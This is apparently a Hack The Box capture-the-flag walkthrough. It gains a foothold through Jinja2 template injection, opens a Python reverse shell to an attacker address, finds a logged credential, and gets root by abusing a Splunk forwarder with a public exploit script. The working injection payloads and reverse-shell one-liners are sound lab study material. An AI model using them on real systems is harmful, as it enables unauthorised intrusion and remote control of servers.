# Box 


https://www.hackthebox.eu/home/machines/profile/278

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance


Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.209 10.10.10.209
```



We go on the first webpage, but nothing interesting is found using gobuster.

Let's try to get on the webpage of splunk. 



we can see here a domain name dev.splunk.com, let's add it to our /etc/hosts

We now have a new page where we can register then login :



Now that we are connected we can post messages : 


Let's see if we can do some XSS :



We can see that the server runs Werkzeug which is a tool to do templates. Let's try to find the right template.

After testing {{ 7 * 7}} and getting the result 49, we can conclude that the template is jinja2. We can now try to find subprocess.Popen to get a RCE (https://akshukatkar.medium.com/rce-with-flask-jinja-template-injection-ea5d0201b870)

## Exploitation

```bash
{{[].__class__.__base__.__subclasses__()[407]}}
```

this command gives us the subprocess.popen class



Now I can execute any command with this payload : 

```bash
{{[].__class__.__base__.__subclasses__().pop(407)(['ls'],shell=True,stdout=-1).communicate()}}
```



Now let's get all the binaries from the /bin folder. I see that there is python on the remote machine. 



Let's get our reverse_shell with a python payload : 

```python
{{[].__class__.__base__.__subclasses__().pop(407)(['python2.7 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''],shell=True,stdout=-1).communicate()}}
```



We are in !

## Post-Exploitation

### User

We can see that we are in the group adm. So we can read logs.



After a while, I found a credential in the bakcup file in the /var/logs/apache2 folder.



So now we can su to shaun and get our flag :



### Root

Root was actually the easiest part because I already found the exploit during my first reconnaissance. We can see the exploit here : 

https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/

We are gonna use this script : https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

I put in a script called give_root_.sh the same payload for the reverse_shell that i used before : 

```bash
python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Then I ran our exploit : 

```bash
python3.8 exploit.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.28  --username shaun --password Guitar123 --payload "/home/shaun/give_root_.sh" 

```



Rooted.